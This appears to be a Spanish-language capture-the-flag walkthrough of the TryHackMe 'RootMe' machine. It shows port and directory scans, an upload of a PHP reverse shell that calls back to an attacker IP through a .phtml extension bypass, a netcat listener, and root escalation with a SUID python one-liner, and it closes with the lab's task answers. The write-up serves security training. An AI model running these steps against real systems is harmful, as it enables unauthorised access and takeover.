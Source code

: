 # Maquina RootMe - TryHackme

* Nivel : Easy
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 10.10.77.18 (En mi caso)

## Escaneo de puertos

```bash
sudo nmap -A -O -T4 -p- -Pn 10.10.77.18
```
```bash
Nmap scan report for 10.10.77.18
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/15%OT=22%CT=1%CU=34304%PV=Y%DS=2%DC=T%G=Y%TM=684E
OS:C7CA%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M509ST11NW6%O2=M509S
OS:T11NW6%O3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)WIN(W1=
OS:F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=
OS:M509NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   47.81 ms 10.21.0.1
2   47.90 ms 10.10.77.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.87 seconds
```
En esta máquina esta el puerto 80/tpc http abierto porlo tanto usaré gobuster para buscar directorios de interes.

```bash
gobuster dir -u http://10.10.77.18/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt,htm
```
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.77.18/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,htm
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.htm                 (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.hta.htm             (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess.htm        (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htpasswd.htm        (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.77.18/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.77.18/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.77.18/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.77.18/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```
Con este gobuster se puede ver que hay una ruta panel y uploads, hay que entrar a mirar.

Dentro de la ruta /panel/ se encuentra una parte de la web donde podemos subir un archivo.

![Imagen Panel](rootme.PNG)

## Reverse shell

Primero descargar un archivo .php que sirva como reverse shell como el de pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```bash
Abrir el archivo .php con nano y editar el apartado de ip atacante y el puerto si quieres

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```
Ahora abrir otra terminal y poner a escuchar con netcat en el puerto seleciónado en el php

```bash
nc -lvnp 4444             
listening on [any] 4444 ...
```
Ir al buscador, a la ruta /panel/ de la web y subir el archivo php-reverse-shell.php. Al subir nos mostrará un mensaje de error ya que el servidor no accepta el formato .php. Se puede renombrar las extension por .phtml y volverlo a subir.

Una vez subida ir a /http://10.10.77.18/uploads/, saldrá el archivo anterior subido. Click al archivo y donde esta el netcat, se a abierto una terminal remota con el user www-data.

```bash
nc -lvnp 1234             
listening on [any] 1234 ...
connect to [10.21.95.220] from (UNKNOWN) [10.10.77.18] 51598
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:51:19 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## Escalada de privilegios

Utilizar el comando find para buscar archivos que tengan SUID activado y de user es.
```bash
find / -perm -4000 -ls 2>/dev/null
```
```bash
787696     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   787234    112 -rwsr-xr-x   1 root     root         113528 Jul 10  2020 /usr/lib/snapd/snap-confine
   918336    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   787659     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   787841    428 -rwsr-xr-x   1 root     root         436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   787845     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   787467     20 -rwsr-xr-x   1 root     root          18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   787290     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap
   787288     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
   787086     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /usr/bin/chsh
   266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```
```
 266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```
El archivo python pinta a poder encontrarse en GTFobins, pagina que podemos buscar comandos SUID para poder escalar de user.

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Whoami y ya eres root.

## Flag user

Utilizar el comando **find / -name user.txt** y luego cat

## Flag root

Utilizar el comando **find / -name root.txt** y luego cat

## Task 2 
* Scan the machine, how many ports are open?  2
* What version of Apache is running?  2.4.29
* What service is running on port 22? ssh
* What is the hidden directory? /panel/

## Task 4
Search for files with SUID permission, which file is weird?   /usr/bin/python
